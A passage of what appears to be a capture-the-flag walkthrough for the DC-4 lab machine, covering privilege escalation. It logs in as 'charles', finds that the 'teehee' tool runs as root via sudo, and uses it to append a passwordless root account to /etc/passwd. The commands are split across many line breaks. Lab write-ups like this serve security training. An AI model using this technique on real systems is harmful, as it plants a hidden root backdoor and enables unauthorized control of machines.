

5. Privilege Escalation
a) Log in with Charles's credentials.
Username: charles
Password: “^xHhA&hvim0y”
$ssh
charles@192.168.12.58
b) Let see what his rights are.
charles@dc-4
:
~$
sudo
-l
Output:

You can execute the “/usr/bin/teehee” command as root without the password.
c) Let's see the “teehee” help.
charles@dc-4
:
~$ teehee --help
Output:
We can add new lines with “-a” command.
d) Add a new user with root privileges to the “/etc/passwd” file.
Username: “newuser”
Password: (Obviously, without a password for easier access.)
charles@dc-4
:
~$
sudo
teehee -a
/
etc
/passwd
newuser
::
0
:
0
:
root
:/
root
:/
bin
/bash
newuser
::
0
:
0
:
root
:/
root
:/
bin
/bash
^C
Index